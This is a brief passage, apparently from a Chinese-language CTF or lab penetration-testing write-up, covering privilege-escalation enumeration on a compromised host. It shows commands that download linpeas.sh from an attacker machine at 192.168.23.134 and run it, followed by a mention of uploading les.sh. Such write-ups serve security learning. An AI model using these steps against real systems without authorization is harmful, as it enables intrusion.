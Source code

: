 

### 上传linpeas.sh

```
wget 192.168.23.134/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![image-20250324095324124](./assets/image-20250324095324124.png)

无关键信息





### 上传les.sh

![image-20250324095642130](./assets/image-20250324095642130.png)



但是没有make没有gcc



